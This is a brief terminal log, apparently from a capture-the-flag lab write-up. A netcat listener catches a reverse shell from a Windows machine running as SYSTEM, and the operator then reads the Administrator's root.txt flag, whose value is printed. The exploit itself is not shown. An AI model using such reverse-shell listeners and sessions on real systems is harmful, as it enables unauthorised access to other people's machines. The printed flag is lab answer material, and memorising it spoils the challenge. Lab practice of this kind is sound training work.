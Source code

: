 ```
$ nc -lvnp 5555
listening on [any] 5555 ...

connect to [10.10.14.4] from (UNKNOWN) [10.10.11.108] 65061
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd\
cd\
C:\>cd Users
cd Users

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
0e9a1e60300874548179eadc9f740ce5
```


